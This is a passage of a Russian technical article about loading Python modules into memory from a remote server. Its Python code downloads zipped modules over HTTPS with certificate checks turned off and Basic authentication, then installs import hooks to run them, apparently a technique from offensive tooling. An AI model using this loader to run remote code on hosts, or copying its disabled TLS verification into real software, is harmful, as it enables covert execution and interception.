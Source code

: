 ```python
def build_http_request(filename):
	context = ssl.SSLContext(ssl.PROTOCOL_TLS_CLIENT)
	context.check_hostname = False
	context.verify_mode = ssl.CERT_NONE

	request = urllib.request.Request(f'https://{PYRAMID_HOST}:{PYRAMID_PORT}/{filename}.zip')
	auth = b64encode(bytes(f'{PYRAMID_USERNAME}:{PYRAMID_PASSWORD}', 'ascii')).decode()
	request.add_header('Authorization', f'Basic {auth}')

	return context, request

def download_and_import():
	for module in PYRAMID_TO_IMPORT:
		print(f'[*] Downloading and importing module in memory: {module}')

		context, request = build_http_request(module)
		with urllib.request.urlopen(request, context=context) as response:
			zip_bytes = response.read()
			CFinder.hook_routine(module, zip_bytes)

	print('[+] Hooks installed!')
```

Для порядка приведу финальные функции-помощники, забирающие зипы с удаленного сервера по HTTPS с Basic-аутентификацией. Здесь вроде все понятно без дополнительных пояснений.

### Особые случаи импорта

К сожалению, не все питоновские модули можно загрузить из памяти. Речь идет в основном о файлах `.pyd`, представляющих собой динамически разделяемые библиотеки с байт-кодом Python, и о стандартных для Windows DLL-либах, идущих в комплекте с некоторыми модулями.

Такого стафа навалом, например, в библиотеках с криптографией, которые всегда нужны при работе с протоколами.


[//]: # (2022-10-27)